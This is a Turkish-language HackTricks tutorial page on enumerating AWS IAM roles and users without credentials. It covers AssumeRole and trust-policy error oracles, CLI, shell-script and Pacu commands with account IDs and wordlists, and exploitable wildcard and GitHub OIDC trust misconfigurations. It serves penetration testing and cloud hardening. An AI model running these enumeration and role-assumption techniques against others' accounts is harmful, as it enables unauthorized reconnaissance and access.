 # AWS - IAM & STS Kimlik Doğrulamasız Enum

{% hint style="success" %}
AWS Hacking öğrenin ve uygulayın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking öğrenin ve uygulayın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **HackTricks** ve **HackTricks Cloud** github depolarına PR göndererek hacking püf noktalarını paylaşın.

</details>
{% endhint %}

## Hesapta Roller ve Kullanıcı Adlarını Sıralama

### ~~Rolü Zorla Tahmin Etme~~

{% hint style="danger" %}
**Bu teknik artık çalışmıyor** çünkü rol var olup olmadığına bakılmaksızın her zaman bu hatayı alırsınız:

`An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::947247140022:user/testenv is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::429217632764:role/account-balanceasdas`

Bu testi çalıştırarak **deneyebilirsiniz**:

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

Gerekli izinlere sahip olmadan **bir rolü varsayma** girişimi bir AWS hata mesajını tetikler. Örneğin, yetkisiz olduğunda, AWS şunu döndürebilir:
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
Bu mesaj, rolün varlığını doğrular ancak assume role politikasının sizin assumption yapmanıza izin vermediğini belirtir. Buna karşılık, **var olmayan bir rolü assume etmeye çalışmak farklı bir hata ile sonuçlanır**:
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
Ilginç bir şekilde, mevcut ve mevcut olmayan roller arasındaki ayrımı yapma yöntemi, farklı AWS hesapları arasında bile uygulanabilir. Geçerli bir AWS hesap kimliği ve hedeflenen bir kelime listesi ile, hesaptaki rolleri varsayılan sınırlamalar olmadan sıralayabilirsiniz.

Bu [betiği (script) kullanarak potansiyel prensipleri sıralayabilirsiniz](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume\_role\_enum) ve bu sorunu kötüye kullanabilirsiniz.

### Güven Politikaları: Zorla Çapraz Hesap rolleri ve kullanıcıları

Bir IAM rolünün güven politikasını yapılandırma veya güncelleme, o rolü alabilecek ve geçici kimlik bilgilerini alabilecek AWS kaynaklarını veya hizmetlerini tanımlamayı içerir. Politikadaki belirtilen kaynak **varsa**, güven politikası **başarılı bir şekilde** kaydedilir. Ancak, kaynak **mevcut değilse**, geçersiz bir prensip sağlandığını belirten bir **hata oluşturulur**.

{% hint style="warning" %}
Bu kaynakta çapraz hesap rolü veya kullanıcı belirtebilirsiniz:

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

Bu bir politika örneğidir:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

Bu, **var olmayan bir rol** kullandığınızda karşılaşacağınız **hata**dır. Rol **varsa**, politika **hata olmadan** kaydedilecektir. (Hata güncelleme için, ancak oluşturulurken de çalışır)

![](<../../../.gitbook/assets/image (68).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
Automasyon sürecini [https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws\_tools) ile gerçekleştirebilirsiniz.

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

[Pacu](https://github.com/RhinoSecurityLabs/pacu) kullanarak:

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* Örnekte kullanılan `admin` rolü, pacu tarafından oluşturulması gereken politikaları oluşturmak için **hesabınızda kimlik hırsızlığı yapılacak bir rol** dur.

### Yükseltme

Rol yanlış yapılandırılmış ve herhangi birinin bunu üstlenmesine izin veriyorsa:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
## Üçüncü Taraf OIDC Federasyonu

Hayal edin ki bir **Github Actions iş akışı** okumayı başarıyorsunuz ve bu iş akışı **AWS** içinde bir **rol**e erişiyor.\
Bu güven, aşağıdaki **güven politikasına** sahip bir role erişim sağlayabilir:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
Bu güven politikası doğru olabilir, ancak **daha fazla koşulun eksik olması** size güvenmemeniz gerektiğini göstermelidir.\
Bu, önceki rolün **Github Actions'tan HERHANGİ BİRİ** tarafından varsayılabileceği anlamına gelir! Koşullarda org adı, repo adı, env, branch gibi diğer şeyleri de belirtmelisiniz...

Başka bir potansiyel yan yapılandırma ise aşağıdaki gibi bir koşul **eklemektir:**
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
Not: **iki yıldız** (\*) **üst üste** **iki nokta üst üste** (:). **org\_name1** gibi bir org oluşturabilir ve bir Github Eyleminden **rolü varsayabilirsiniz**.

## Referanslar

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)

{% hint style="success" %}
AWS Hacking öğrenin ve uygulayın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking öğrenin ve uygulayın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Destek HackTricks</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin**.
* **HackTricks** ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks) github depolarına PR göndererek hacking püf noktalarını paylaşın.

</details>
{% endhint %}
